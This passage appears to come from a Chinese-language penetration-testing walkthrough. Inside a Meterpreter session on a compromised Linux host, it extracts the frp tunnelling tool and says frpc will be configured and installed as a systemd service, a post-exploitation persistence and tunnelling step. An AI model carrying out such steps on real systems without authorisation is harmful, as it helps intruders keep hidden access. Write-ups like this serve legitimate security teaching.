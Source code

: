 ```

     0K .......... .......... .......... .......... ..........  0% 46.4M 0s
    50K .......... .......... .......... .......... ..........  1% 42.7M 0s
   100K .......... .......... .......... .......... ..........  1%  335M 0s
   150K .......... .......... .......... .......... ..........  2% 48.3M 0s
   200K .......... .......... .......... .......... ..........  2%  199M 0s
   250K .......... .......... .......... .......... ..........  3% 49.9M 0s
   300K .......... .......... .......... .......... ..........  3% 92.5M 0s
```



![image-20211013151811453](/assets/image-20211013151811453.png)



```shell
#解压frp_0.37.1_linux_amd64.tar.gz
tar xf frp_0.37.1_linux_amd64.tar.gz
exit                                        #退出
```



修改frpc.ini配置文件,并添加frpc为systemctl服务启动

```shell
meterpreter > cd frp_0.37.1_linux_amd64
meterpreter > pwd
/root/frp_0.37.1_linux_amd64
meterpreter > ls
Listing: /root/frp_0.37.1_linux_amd64
=====================================

Mode              Size      Type  Last modified              Name
----              ----      ----  -------------              ----
100644/rw-r--r--  11358     fil   2021-10-13 03:24:09 -0400  LICENSE
100755/rwxr-xr-x  10579968  fil   2021-10-13 03:24:09 -0400  frpc
100644/rw-r--r--  126       fil   2021-10-13 03:24:09 -0400  frpc.ini
100644/rw-r--r--  9503      fil   2021-10-13 03:24:09 -0400  frpc_full.ini
```